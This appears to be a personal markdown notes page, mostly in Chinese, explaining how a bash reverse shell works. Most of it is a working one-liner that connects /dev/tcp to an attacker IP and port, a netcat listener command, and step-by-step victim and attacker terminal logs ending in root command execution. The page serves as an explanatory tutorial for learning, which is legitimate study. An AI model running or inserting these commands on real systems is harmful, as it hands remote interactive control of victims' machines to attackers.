 # Shell Commands Prompts & Correction

[TOC]



## Res
### Related Topics



## Shell Commands in Security
### Reverse Shell
`/bin/bash -i > /dev/tcp/10.201.61.194/5566 0>&1 2>&1`
1. bash -i 创建一个交互的bash shell。
2. /dev/tcp/是Linux中的一个特殊设备文件,实际这个文件是不存在的，它只是 bash 用来实现网络请求的一个接口。打开这个文件就相当于发出了一个socket调用，建立一个socket连接，读写这个文件就相当于在这个socket连接中传输数据。同理，Linux中还存在/dev/udp/。
3. “>&”和“0>&1”
	1. 要想了解“>&”和“0>&1”，首先我们要先了解一下Linux文件描述符和重定向。linux shell下常用的文件描述符是：
		1. 标准输入(stdin) ：代码为 0 ，使用 < 或 <<
		2. 标准输出(stdout)：代码为 1 ，使用 > 或 >>
		3. 标准错误输出(stderr)：代码为 2 ，使用 2> 或 2>>
		4. 这里的”>&”与”&>”是等价的，都是表示混合输出，即标准输出1 + 错误输出2。其实 2>&1也是将标准错误输出重定向到标准输出中的意思。那么按照这个逻辑，“0>&1”就是将标准输入重定向到标准输出中。事实也就是如此，“0>&1”跟“0&>1”同样也是等价的。
4. 命令中的`0>&1` 和 `2>&1`按顺序对于前面的消息流，这个例子中分别对应的是 `/bin/bash` 和 `/dev/tcp/10.201.61.194/5566`。即`0>&1` 将 `/bin/bash`的 标准输入和错误输出（0）混合重定向（>&）到 `/dev/tcp/10.201.61.195/5566`的标准输出（1）。`2>&1`同理。

`nc -lkvp 7777`
1. -l 表示监听状态
2. -v 表示打印详细信息
3. -p 表示指定端口
4. -k 表示当前连接断开后不退出程序，继续等待下一个连接

```shell
# ---------------------------------------------------------------
# Victim:
[root@victim ~]$ bash -i > /dev/tcp/10.201.61.194/5566        # 第二步
[root@victim ~]$ hostname                                     # 第三步
[root@victim ~]$

# Attacker：
[root@hacker ~]$ nc -lvp 5566                                 # 第一步

Ncat: Version 7.50 ( https://nmap.org/ncat )
Ncat: Listening on :::5566
Ncat: Listening on 0.0.0.0:5566
Ncat: Connection from 10.201.61.195.
Ncat: Connection from 10.201.61.195:49018.

victim 
# 测试1结果：实现了将受害端的标准输出重定向到攻击端，但是还没实现用命令控制受害端。


# ----------------------------------------------------------------
# Victim:
[root@victim ~]$ bash -i < /dev/tcp/10.201.61.194/5566        # 第二步
[root@victim ~]$ hostname
victim

# Attacker：
[root@hacker ~]$ nc -lvp 5566                                 # 第一步
Ncat: Version 7.50 ( https://nmap.org/ncat )
Ncat: Listening on :::5566
Ncat: Listening on 0.0.0.0:5566
Ncat: Connection from 10.201.61.195.
Ncat: Connection from 10.201.61.195:50412.
hostname                                                      # 第三步（攻击端执行命令）
# 测试2结果：实现了将攻击端的输入重定向到受害端，但是攻击端看不到命令执行结果。


# ----------------------------------------------------------------
# Victim:
[root@victim ~]$ bash -i > /dev/tcp/10.201.61.194/5566 0>&1   # 第二步
[root@victim ~]$ hostname                                     # 受害端回显命令
[root@victim ~]$ id                                           # 受害端回显命令
[root@victim ~]$ hahaha                                       # 受害端回显命令
bash: hahaha: command not found                               # 受害端回显命令。显示错误命令的输出。

# Attacker：
[root@hacker ~]$  nc -lvp 5566                                # 第一步
Ncat: Version 7.50 ( https://nmap.org/ncat )
Ncat: Listening on :::5566
Ncat: Listening on 0.0.0.0:5566
Ncat: Connection from 10.201.61.195.
Ncat: Connection from 10.201.61.195:36792.
hostname                                                      # 第三步（攻击端执行命令）
victim
id                                                            # 第四步（攻击端执行命令）
uid=0(root) gid=0(root) groups=0(root)
hahaha                                                        # 第五步（执行一个错误的命令）

# 测试3结果：基本实现了反弹shell的功能。但是受害端的机器上依然回显了攻击者机器上执行的命令，且攻击端看不到错误命令的输出。


# ----------------------------------------------------------------
# Victim:
[root@victim ~]$ bash -i > /dev/tcp/10.201.61.194/5566 0>&1 2>&1 # 第二步。 
# 或bash -i &> /dev/tcp/10.201.61.194/5566 0>&1  （注：&>或>& 表示混合输出，即标准输出1 + 错误输出2）

# Attacker：
[root@hacker ~]$ nc -lvp 5566                                    # 第一步
Ncat: Version 7.50 ( https://nmap.org/ncat )
Ncat: Listening on :::5566
Ncat: Listening on 0.0.0.0:5566
Ncat: Connection from 10.201.61.195.
Ncat: Connection from 10.201.61.195:51182.
[root@victim ~]$ hostname                                        # 第三步。测试4结果：攻击端已获得受害端的远程交互式shell，而且受害端没有再回显攻击端输入的命令~
hostname
victim

# PS：由测试3、测试4对比可见，标准错误2不仅显示错误信息的作用，居然还有回显输入命令和终端提示符的作用~~~
```



## Shell Commands in Development



## Shell Commands in Others



## Ref

[反弹shell原理与实现 - PHP架构师之路的文章 - 知乎]: https://zhuanlan.zhihu.com/p/138393396

[反弹bash shell命令详解]: https://www.cnblogs.com/pandana/p/16289320.html)]: https://www.cnblogs.com/pandana/p/16289320.html

